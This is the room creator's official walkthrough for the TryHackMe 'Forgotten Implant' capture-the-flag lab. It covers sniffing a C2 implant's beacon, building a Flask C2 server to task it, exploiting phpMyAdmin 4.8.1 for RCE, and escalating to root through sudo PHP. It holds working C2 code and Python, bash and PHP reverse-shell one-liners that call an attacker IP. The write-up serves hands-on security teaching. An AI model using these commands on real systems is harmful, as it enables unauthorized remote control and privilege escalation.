

# TryHackMe – Forgotten Implant

*Official Walkthrough by [**Ingo Kleiber**](https://linktr.ee/ingokleiber) (Room Creator)*
(Version: 2023-08-10)

Please note that there are also several [community writeups and walkthroughs](https://github.com/IngoKl/THM-ForgottenImplant/blob/main/solution/writeups-and-walkthroughs.md) available. Some of these cover highly interesting (alternative) approaches.

## 1. Introduction

In this room, with almost no attack surface, you will have to use a forgotten C2 implant on the machine in order to get initial access.

Hacking your way through this room, you will learn how to ...

* use tools like `Wireshark` to monitor network traffic.
* use `HTTP`, `Base64`, and `JSON` in the context of a simple HTTP client-server architecture.
* reverse engineer a simple C2 protocol.
* build a simple C2 interface using `Python` in order to interface with an implant.
* leverage stored credentials in order to move laterally.
* exploit `phpMyAdmin` (4.8.1) using RCE.
* leverage `sudo` and `PHP` in order to escalate privileges.

If you have no prior knowledge of Command and Control (C2), you might want to have a look at TryHackMe's [Intro to C2](https://tryhackme.com/room/introtoc2) room. While not necessary to solve this challenge, it will provide some valuable context for your learning experience.

## 2. Walkthrough

The following walkthrough is the suggested path through this room. That said, feel free to explore and find other ways! As this is the "official" walkthrough, I am going to provide some background information as well as alternative approaches here and there.

### 2.1 Overview

The following visualizes the complete attack path. After reverse engineering the C2 implant, we will gain access via `ada`.


Then we will get `MySQL` credentials which we can leverage to exploit `phpMyAdmin`. From there, we can escalate privileges using `sudo` and `PHP`.

### 2.2 Enumeration

```text
🗒️📌 NOTE

There are no VPN/network-facing open ports (neither TCP nor UDP). 
Trust your process, and avoid falling into the trap of running more and more sophisticated scans that might lead to false positives.
```

We will start our enumeration process by performing a basic portscan using either `nmap` or `rustscan`.

```bash
nmap -sV -sC -Pn <IP>
rustscan -a <IP> --ulimit 5000 --timeout 5000
```


We can see that there are no open ports. Therefore, we will use `Wireshark` to monitor for network traffic. We do this because we assume, given the title of the room, that an implant is trying to reach out (see below for a look behind the curtain).

```text
🗒️📌 NOTE

While we are looking at a simple reverse connection in this scenario, some backdoors leverage ICMP to create a stealthy backdoor that can be triggered from the outside.
As an example, have a look at Andrea Fabrizi's PRISM.
```


As we can see, there seem to be connections on port 81. We will use `netcat` as a simple and straightforward way to check what is happening.

`nc -nlvp 81`

This will open a simple server on port 81.


As can be seen, we have received a Base64 encoded heartbeat. We can decode the string in order to see what is going on. While we are using the humble `base64` here, this would also be a great opportunity to take [`CyberChef`](https://gchq.github.io/CyberChef/) out of the toolbox.

```bash
echo "eyJ0aW1lIjogIjIwMjItMDctMTRUMjI6MjM6MDEuMTczOTc4IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogIZvcmdvdHRlbmltcGxhbnQifSwgImxhc3Rlc3Rfam9iIjogeyJqb2JfaWQiOiAwLCAiY21kIjogIndob2FtaSJ9LCAic3VjY2VzcyI6IGZhbHNlfQ==" | base64 -d | jq
```

Apparently, we were sent a JSON object that contains information about the host the implant is running on as well as the `latest_job`. We can use `jq`, as seen above, to format the output this way.

```json
{
  "time": "2022-07-14T22:23:01.173978",
  "systeminfo": {
    "os": "Linux",
    "hostname": "forgottenimplant"
  },
  "latest_job": {
    "job_id": 0,
    "cmd": "whoami"
  },
  "success": false
}
```

```text
🗒️📌 NOTE

Here, you are looking at a custom and extremely limited (and poorly designed) C2 system. 
Part of the challenge is understanding the protocol and building a client to use with the C2 server. There is no point in looking for an existing C2 client that will work here.
```

We can now also use a simple `Python` HTTP server to monitor for further activity.

`python3 -m http.server 81`


There is an interesting parameter in one of the HTTP calls (`/get-job/ImxhdGVzdCI=`). As this also looks like Base64, let us decode it.

```bash
echo "ImxhdGVzdCI=" | base64 -d
"latest"
```

As we can see, the implant – so we assume – is requesting the "latest" job from us. Fortunately, looking at the heartbeat, we have an idea about what "jobs" look like.

```json
{"job_id": 0, "cmd": "whoami"}
```

We will now use a simple `Flask` server to interface with the implant.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/get-job/ImxhdGVzdCI=')
def get_job():
    return '{"job_id": 0, "cmd": "whoami"}'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=81)
```

Here, we simply try to return a job on the requested endpoint. Remember that the implant is sending an HTTP request to use that we are answering. Effectively, the implant is acting as an HTTP client, whereas we are the server.


Sending the job results in another GET request `/job-result`. Decoding it reveals that apparently there has been an "Encoding Error."

Knowing that the system works with Base64, we send the same job but encoded in Base64:

```python
@app.route('/get-job/ImxhdGVzdCI=')
def get_job():
    # echo '{"job_id": 0, "cmd": "whoami"}' | base64
    return "eyJqb2JfaWQiOiAwLCAiY21kIjogIndob2FtaSJ9Cg=="
```


This results in the successful execution of the `whoami` command.

#### A Simple Solution Using Text Files

While we are using `Flask` here, mainly because it is more interesting, you can also use a Python HTTP server and text files to get the job done.

```bash
touch get-job/ImxhdGVzdCI=
nano get-job/ImxhdGVzdCI=
python3 -m http.server 81
```

Have a look at [0xb0b's writeup](https://0xb0b.gitbook.io/writeups/tryhackme/2023/forgotten-implant) for a full walkthrough using this method.

```text
🗒️📌 NOTE / A Look Behind the Curtain

The box actively monitors network traffic using /home/fi/sniffer.py. 
Hosts trying to connect to at least 10 ports are being contacted by the implant. 
Hence, the port scanning actually triggers the implant to get in touch.
```

### 2.3 Initial Access

We now have code execution on the machine using our simple `Flask` server. In order to make our lives a bit easier, we can "upgrade" to a more robust C2 interface. Below is an example, however, feel free to build your own!

```python
import base64
import json
import logging
from pprint import pprint
import queue

from flask import Flask, jsonify, request

# Jobs
jobs = queue.Queue()
jobs.put({'job_id': 'hostname', 'cmd': 'hostname'})
jobs.put({'job_id': 'whoami', 'cmd': 'whoami'})

app = Flask(__name__)

# Disable Flask Logging
app.logger.disabled = True
log = logging.getLogger('werkzeug')
log.disabled = True


def decode_message(message):
    return base64.b64decode(message).decode('utf-8')


def encode_message(message):
    return base64.b64encode(message.encode('utf-8')).decode('utf-8')


@app.route('/heartbeat/<message>')
def heartbeat(message):
    host = request.remote_addr
    message = json.loads(decode_message(message))
    hostname = message['systeminfo']['hostname']

    print(f'💓 Received heartbeat from {host} ({hostname})')

    return 'Received', 200


@app.route('/get-job/<message>')
def get_job(message):
    host = request.remote_addr
    message = json.loads(decode_message(message))

    print(f'➕ Received job request from {host} ({message})')

    try:
        # We are ignoring any other requests (e.g., for a specific job)
        if message == 'latest':
            if jobs.empty():
                print(f'❌ No jobs available')
                return 'No jobs available', 404
            else:
                job = jobs.get()
                print(f'➕ Sending job {job["job_id"]} ({job["cmd"][0:15]}) to {host}')
                return encode_message(json.dumps(job))
        else:
            print(f'❌ No fitting job found ({message})')
    except IndexError:
        print(f'❌ Error sending job {host}')


@app.route('/job-result/<message>')
def job_result(message):
    host = request.remote_addr
    message = json.loads(decode_message(message))

    if message['success'] == True:
        print(f'✅ Received confirmation for job {message["job_id"]} ({message["cmd"][0:15]}) from {host}')
        print(f'\n{message["result"]}\n')
    else:
        print(f'❌ Received error for job {message["job_id"]} ({message["cmd"][0:15]}) from {host}: {message["result"]}')

    return 'Received', 200


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=81)
```


As seen in the screenshot above, we can execute multiple commands one after another. We also can clearly see the results.

#### Reverse Shell

As an easy way forward, we will use this capability to execute a reverse shell:

```python
jobs.put({
    'job_id': 'shell', 
    'cmd': 'python3 -c \'import os,pty,socket;s=socket.socket();s.connect(("<A_IP>",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")\''
    })
```

We do not need to run the original two `hostname` and `whoami` jobs.

Of course, you can also run a different, possibly more stable, reverse shell. In any way, using `pwncat-cs` or simply `netcat`, we can catch the shell which provides us access via the *ada* user.


```text
🗒️📌 NOTE

Your initial enumeration will uncover the Fi user. 
This user runs the sniffer and is not part of the intended attack path.
You can also take this as a learning opportunity: Just because something exists does not make it relevant for the attack.
```

Looking around `/home/ada`, we can find the `products.py` script, which contains `MySQL` credentials.


```text
host: localhost 
database: app 
user: app 
password: [REDACTED]
```

We will use these stored credentials for lateral movement. Before doing so, we can, of course, also retrieve the first flag in `/home/ada/user.txt`.


### 2.4 Lateral Movement to www-data

In order to progress – at least following the intended path – we will have to move laterally to the *www-data* user.

Checking the ports on the system reveals that there is a service (HTTP) on port 80, which we haven't seen before. This service is apparently not accessible from the outside.


Assuming that this is HTTP, we can use `curl` to quickly check what we are looking at.

`curl http://127.0.0.1 | grep '<title>.*</title>'`


Considering the the output, we are looking at `phpMyAdmin` running version 4.8.1. We can confirm this by checking `/var/www/phpmyadmin/README`:



Fortunately, for us, this version of `phpMyAdmin` is vulnerable to RCE.

Using SAMGUY's [phpMyAdmin 4.8.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50457) exploit, we can do a quick PoC. As you can see below, we are able to run `whoami`. This also reveals that we are able to move laterally to the *www-data* user.


We can execute commands as *www-data*. Let's get a reverse shell! Because executing the command straight away is rather tricky, we are executing a simple script in `/home/ada/`.

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/<A_IP>/5555 0>&1
```

Don't forget to `chmod +x /home/ada/shell.sh`.


```bash
python3 exploit.py 127.0.0.1 80 / app [REDACTED] /home/ada/shell.sh
```

Be aware that `phpMyAdmin` resides in `/` and not, as the exploit suggests, in `/phpmyadmin`.

Doing so provides us an interactive shell as the *www-data* user.

#### Alternative Path

There is an alternative path for moving laterally to `www-data`. To my knowledge, it has first been documented by [noncenz](https://blog.noncenz.com/posts/Forgotten-Implant/).

As `ada`, files can be written to `/var/www/phpmyadmin/tmp`. As this folder is accessible via the web server, a shell can be executed as `www-data` without using the `phpMyAdmin` exploit: `curl 127.0.0.1/tmp/shell.php`.

#### Pivoting

While here we have executed everything on the machine itself, this is a nice learning opportunity in terms of (internal) pivoting. For example, we could have used `chisel` to access the internal web server from our attacker machine. Another option would be `socat`, as demonstrated nicely by [Sam Witham](https://medium.com/@withamsam/tryhackme-forgotten-implant-walkthrough-3ae3a2f4d7ff) in their walkthrough.

### 2.5 Privilege Escalation to root

Fortunately, *www-data* has very powerful privileges via `sudo`. As can be seen below, the user can run `PHP` with root privileges.


This, of course, allows us to easily escalate privileges.

To follow the established pattern of this walkthrough, we will spawn another reverse shell:

```bash
sudo php -r '$sock=fsockopen("<A_IP>",4444);exec("/bin/bash <&3 >&3 2>&3");'
```


Alternatively, a simple `sudo /usr/bin/php -r "system('/bin/sh');"` also should do the trick (see [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo)). Of course, knowing this, one could also use `sudo` with the `phpMyAdmin` exploit above and a PHP shell directly (see [lineeralgebra's walkthrough](https://www.youtube.com/watch?v=fMYzeFQ1RL0) for an example of this).

Now, having escalated our privileges, we can get the final flag (`/root/.root.txt`):


This concludes the *Forgotten Implant* room. Good job!
